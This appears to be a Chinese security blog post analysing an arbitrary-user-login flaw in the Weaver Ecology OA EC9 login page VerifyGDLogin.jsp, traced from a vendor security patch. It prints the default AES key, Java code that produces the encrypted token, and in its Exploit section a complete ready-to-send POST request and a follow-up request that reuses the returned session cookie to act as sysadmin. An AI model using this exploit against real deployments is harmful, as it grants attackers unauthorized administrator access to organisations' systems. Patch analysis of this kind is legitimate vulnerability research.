

# 某 OA EC9 VerifyGDLogin 任意用户登录分析 - 先知社区

某 OA EC9 VerifyGDLogin 任意用户登录分析

- - -

## 0x01 前言

在跟踪泛微补丁包时发现`Ecology_security_20230725_v9.0_v10.58.3`的`SecurityRuleGdLogin0317`的补丁疑似修复了一个 SQL 注入，因此跟踪下看看

[![](assets/1701678526-0c395faeb0159a585e88d0e1e61f8b8a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129151943-aac0797e-8e87-1.png)

上图为补丁关键操作，看内容像是进行了 SQL 注入检测，后续分析发现是一处任意用户登录

## 0x02 分析

跟踪关键文件`login/VerifyGDLogin.jsp`

[![](assets/1701678526-ba072af16128b804b6c21768107ab085.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152010-bb4972aa-8e87-1.png)

看源码为从 URI 中获取`para`、`para1`、`para2`后调用`PoppupRemindInfoUtil.decrypt`对`para2`做解密，然后通过`weaver.login.VerifyGDLogin#getUserCheck`方法进行登录校验

[![](assets/1701678526-984810f64d1b59310bd62f2d62c45d36.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152019-c065a394-8e87-1.png)

其中`PoppupRemindInfoUtil.decrypt`方法首先会校验`WEB-INF/prop/AESpassword.properties`中的`pwd`项是否为空，不为空则赋值给`var1`，为空则给`var1`赋值`1`

[![](assets/1701678526-7dcf98168ef33f59b5376e1a3562e37a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152024-c3286238-8e87-1.png)

然后使用`SM4IntegrationUtil.USE_SM4`方法判断是否启用了国密`SM4加密算法`，如启用则使用 SM4 解密，否则调用`AES.decrypt`进行解密，默认为`false`

[![](assets/1701678526-ea34df91afa812523d760f4fe03b78cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152028-c5e8ff8c-8e87-1.png)

其中`AES.decrypt`方法如下

[![](assets/1701678526-a1e3f199ab6b5c8bd048166d6c3f1be0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152034-c9381a74-8e87-1.png)

那么加密函数就为`AES.encrypt`，代码如下

```plain
public static String encryptAES_SunJCE(String var0, String var1) {
        byte[] var2 = null;
        try {
            KeyGenerator var3 = KeyGenerator.getInstance("AES");
            SecureRandom var4 = SecureRandom.getInstance("SHA1PRNG");
            var4.setSeed(var1.getBytes());
            var3.init(128, var4);
            SecretKey var5 = var3.generateKey();
            byte[] var6 = var5.getEncoded();
            SecretKeySpec var7 = new SecretKeySpec(var6, "AES");
            Cipher var8 = Cipher.getInstance("AES", "SunJCE");
            byte[] var9 = var0.getBytes();
            var8.init(1, var7);
            var2 = var8.doFinal(var9);
        } catch(NoSuchProviderException var10) {
            var10.printStackTrace();
        } catch(NoSuchAlgorithmException var11) {
            var11.printStackTrace();
        } catch(NoSuchPaddingException var12) {
            var12.printStackTrace();
        } catch(InvalidKeyException var13) {
            var13.printStackTrace();
        } catch(IllegalBlockSizeException var14) {
            var14.printStackTrace();
        } catch(BadPaddingException var15) {
            var15.printStackTrace();
        }
        return var2 == null ? "" : Tools.parseByte2HexStr(var2);
    }
```

生成加密数据的代码

```plain
package test;
import com.pluginweaver.utils.CryptTool;

public class testAesCrypt {
    public static void main(String[] args) {
        //4DUa6Wq9
        //1
        String cryptStr="1";
        String enStr=CryptTool.encryptAES_SunJCE( cryptStr,"4DUa6Wq9");
        System.out.println(enStr);
    }
}
```

[![](assets/1701678526-922b3693aa799f3f07314205a556a5c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152041-cd4ac2e2-8e87-1.png)

## 0x03 Exploit

按照前文分析构造好数据包后发送

```plain
POST /login/VerifyGDLogin.jsp HTTP/1.1
Host: 192.168.232.129
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 69

para=ViewRequest.jsp&para1=123&para2=E4D160ED60A81E804F24EE2AE592D66F
```

[![](assets/1701678526-e3c810077d2cdf36804ce2e0195a662c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152047-d0e81512-8e87-1.png)

复制返回的`ecology_JSessionid`访问需要鉴权的接口即可以`sysadmin`登录

```plain
GET /api/hrm/login/getAccountList?__random__=1700633695101 HTTP/1.1
Host: 192.168.232.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Accept: */*
Referer: http://192.168.232.129/wui/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ecology_JSessionid=aaaOhmJeYzN2NbvHFv1Vy;
Connection: close
```

[![](assets/1701678526-d60340b78d411b0c75a27836d18054b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152052-d3e42fa8-8e87-1.png)
